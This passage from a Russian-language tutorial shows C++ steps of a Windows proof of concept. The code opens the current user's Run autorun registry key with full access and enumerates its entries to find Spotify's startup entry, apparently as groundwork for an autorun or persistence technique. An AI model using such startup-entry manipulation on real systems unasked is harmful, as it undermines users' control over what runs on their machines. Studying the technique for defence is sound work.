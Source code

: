 2) Открываем ветку [HKEY_CURRENT_USER](https://www.lifewire.com/hkey-current-user-2625901) по пути _Software\Microsoft\Windows\CurrentVersion\Run. _Запрашиваем права [KEY_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-key-security-and-access-rights). Хотя, единственные требуемые права доступа для этого PoC - **KEY_QUERY_VALUE** и **KEY_ENUMERATE_SUB_KEYS.** Да, мы могли явно запросить права для ключа Spotify ( _Software\Microsoft\Windows\CurrentVersion\Run\Spotify)_, но мы хотели продемонстрировать динамический подход.

```cpp
WCHAR wRegistryPath[WCHAR_MAXPATH] = L"Software\\Microsoft\\Windows\\CurrentVersion\\Run";

HKEY hKey = NULL, hHive = HKEY_CURRENT_USER;

BOOL bFlag = FALSE;

dwError = (LRESULT)RegOpenKeyExW(hHive, wRegistryPath, 0, KEY_ALL_ACCESS, &hKey);

if (dwError != ERROR_SUCCESS) 
    goto FAILURE;
```


3) Проходимся по всем записям в Run. Мы решили ограничиться числом 256. На каждой итерации мы вызываем [RegEnumValueW](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regenumvaluew), используем **LPDWORD lpType**, в качестве 6 параметра, чтобы определить, имеет ли полученное значение тип [REG_SZ](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-value-types). Если нет, то продолжаем цикл дальше. Иначе, мы конвертируем полученный [BYTE массив](https://docs.microsoft.com/en-us/windows/win32/winprog/windows-data-types) в WCHAR и вызываем [wcsstr](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strstr-wcsstr-mbsstr-mbsstr-l?view=vs-2019), чтобы определить, содержит ли она строку Spotify. В этом случае, мы устанавливаем BOOLEAN флаг в TRUE. Мы используем его в качестве сигнала успешности завершения цикла.

```cpp
for (; dwError < 256; dwError++) { 

    DWORD dwReturn = 0, lpType = 0, dwValueSize = WCHAR_MAXPATH, dwDataSize =  WCHAR_MAXPATH; BYTE lpData[WCHAR_MAXPATH] = { 0 }; 

    WCHAR wString[WCHAR_MAXPATH] = { 0 };
    WCHAR lpValue[WCHAR_MAXPATH] = { 0 };
    dwReturn = (LSTATUS)RegEnumValueW(hKey, dwError, lpValue, &dwValueSize,   NULL, &lpType, lpData, &dwDataSize);

    if (dwReturn != ERROR_SUCCESS && dwError != ERROR_NO_MORE_ITEMS) 
        goto FAILURE;

    if (lpType != REG_SZ) 
        continue; 

    swprintf(wString, L"%ws", lpData);

    if (wcsstr(wString, L"Spotify") != NULL) {
        bFlag = TRUE; 
        break; 
    } 
}

if (!bFlag) { 
    SetLastError(ERROR_FILE_NOT_FOUND);
    goto FAILURE;
}
```
